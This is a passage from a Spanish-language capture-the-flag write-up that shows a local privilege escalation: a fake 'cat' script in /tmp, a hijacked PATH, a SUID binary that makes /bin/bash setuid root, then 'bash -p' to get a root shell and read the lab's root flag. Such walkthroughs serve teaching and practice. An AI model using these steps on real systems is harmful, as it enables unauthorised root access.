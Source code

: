 Lo guardamos y ahora vamos a modificar el `PATH` para que cuando lo ejecutemos es ejecute como `root` el script llamado `cat` por lo que tendremos que poner que primero vaya a la ruta `/tmp` para que funcione:

```shell
chmod +x /tmp/cat
export PATH=/tmp:$PATH
```

Ahora si vemos el `PATH`:

```shell
echo $PATH
```

Info:

```
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

Veremos que ha funcionado, por lo que vamos a ejecutar de nuevo el `binario`:

```shell
/opt/showMetheKey
```

Info:

```
Permisos establecidos de forma correcta!
```

Por lo que vemos parece que ha funcionado, vamos a comprobarlo de la siguiente forma:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

Veremos que ha funcionado, por lo que vamos a ejecutar el siguiente comando para ser `root`:

```shell
bash -p
```

Info:

```
bash-5.0# whoami
root
```

Veremos que seremos `root`, por lo que leeremos la `flag` de `root`:

```shell
find / -name "root.txt" 2>/dev/null
```

Info:

```
/usr/include/root.txt
```

> root.txt

```
Imnotbatman
```
